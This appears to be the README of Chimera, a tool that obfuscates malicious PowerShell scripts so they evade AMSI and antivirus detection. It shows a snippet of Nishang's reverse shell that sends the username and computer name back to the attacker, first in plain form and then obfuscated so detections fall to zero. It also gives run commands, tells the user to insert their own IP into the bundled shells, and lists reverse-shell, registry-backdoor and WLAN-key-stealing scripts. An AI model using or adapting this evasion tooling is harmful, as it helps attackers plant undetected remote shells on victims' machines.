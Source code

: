 Chimera is a (shiny and very hack-ish) PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

![](images/chimera.gif)

Chimera was created for [this write-up](https://null-byte.com/bypass-amsi-0333967/) and is [further evidence](https://github.com/tokyoneon/Chimera#resources) of how trivial it is to bypass detection signatures. Hopefully, this repository will inspire someone to build something robust and more reliable.

## How Chimera works...

Below is a snippet of Nishang's [Invoke-PowerShellTcp.ps1](shells/Invoke-PowerShellTcp.ps1), found at [nishang/Shells](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). VirusTotal reports [25 detections](https://www.virustotal.com/gui/file/0f1e223eaf8b6d71f65960f8b9e14c98ba62e585334a6349bcd02216f4415868/detection) of the PS1 script.

```powershell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

#Send back current username and computername
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

#Show an interactive PowerShell prompt
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)
```

![](images/chimera-01.png)

And here it is again, after Chimera. VirusTotal reports [0 detections](https://www.virustotal.com/gui/file/74a47198fefa10a8ebb88a8b130259e56a5a9fc4302089ac73009742ba5c98dc/detection) of the obfuscated version.

```powershell
  # Watched anxiously by the Rebel command, the fleet of small, single-pilot fighters speeds toward the massive, impregnable Death Star.
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
# Far off in a distant galaxy, the starship belonging to Princess Leia, a young member of the Imperial Senate, is intercepted in the course of a secret mission by a massive Imperial Star Destroyer.
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.
```

![](images/chimera-02.png)

Chimera does several things to obfuscate the source. The `transformer` function will separate strings into multiple pieces and reconstruct them as new variables.

For example, it will take a string like `... New-Object System.Net.Sockets.TCPClient ...` and convert it to:

```powershell
$a = "Syste"
$b = "m.Net.Soc"
$c = "kets.TCP"
$d = "Client"

... New-Object $a$b$c$d ...
```

The function separates commonly flagged data types and strings into several chunks. It defines the chunks and concatenates them at the top of the script. A higher `--level` will result in smaller chunks and more variables.
```powershell
$CNiJfmZzzQrqZzqKqueOBcUVzmkVbllcEqjrbcaYzTMMd = "`m"
$quiyjqGdhQZgYFRdKpDGGyWNlAjvPCxQTTbmFkvTmyB = "t`Rea"
$JKflrRllAqgRlHQIUzOoyOUEqVuVrqqCKdua = "Get`s"
$GdavWoszHwDVJmpYwqEweQsIAz = "ti`ON"
$xcDWTDlvcJfvDZCasdTnWGvMXkRBKOCGEANJpUXDyjPob = "`L`O`Ca"
$zvlOGdEJVsPNBDwfKFWpvFYvlgJXDvIUgTnQ = "`Get`-"
$kvfTogUXUxMfCoxBikPwWgwHrvNOwjoBxxto = "`i"
$tJdNeNXdANBemQKeUjylmlObtYp = "`AsC`i"
$mhtAtRrydLlYBttEnvxuWkAQPTjvtFPwO = "`G"
$PXIuUKzhMNDUYGZKqftvpAiQ = "t`R`iN
```

## Usage

Clone the repository. Tested in Kali v2020.3.
```
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
```

Basic usage.
```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

Review the [usage guide](USAGE.md) and [write-up](https://null-byte.com/bypass-amsi-0333967/) for more examples and screenshots.

## Shells

In the `shells/` directory are several Nishang scripts and a few generic ones. All have been tested and should work fine. But there's no telling how untested scripts will reproduce with Chimera...

Change the hardcoded IP addresses.
```
sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
```

```
ls -laR shells/

shells/:
total 60
-rwxrwx--- 1 tokyoneon tokyoneon 1727 Aug 29 22:02 generic1.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 1433 Aug 29 22:02 generic2.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  734 Aug 29 22:02 generic3.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4170 Aug 29 22:02 Invoke-PowerShellIcmp.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  281 Aug 29 22:02 Invoke-PowerShellTcpOneLine.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4404 Aug 29 22:02 Invoke-PowerShellTcp.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  594 Aug 29 22:02 Invoke-PowerShellUdpOneLine.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 5754 Aug 29 22:02 Invoke-PowerShellUdp.ps1
drwxrwx--- 1 tokyoneon tokyoneon 4096 Aug 28 23:27 misc
-rwxrwx--- 1 tokyoneon tokyoneon  616 Aug 29 22:02 powershell_reverse_shell.ps1

shells/misc:
total 36
-rwxrwx--- 1 tokyoneon tokyoneon 1757 Aug 12 19:53 Add-RegBackdoor.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 3648 Aug 12 19:53 Get-Information.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  672 Aug 12 19:53 Get-WLAN-Keys.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4430 Aug 28 23:31 Invoke-PortScan.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 6762 Aug 29 00:27 Invoke-PoshRatHttp.ps1
```

## Resources

- * [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- * [AMSITrigger](https://github.com/RythmStick/AMSITrigger)
- * [PSAmsi](https://github.com/cobbr/PSAmsi)
- * [amsi.fail](https://amsi.fail/)
- * [Unicorn](https://github.com/trustedsec/unicorn)
- * [www.wolfandco.com](https://www.wolfandco.com/insight/behind-enemy-lines-pen-tester%E2%80%99s-take-evading-amsi)
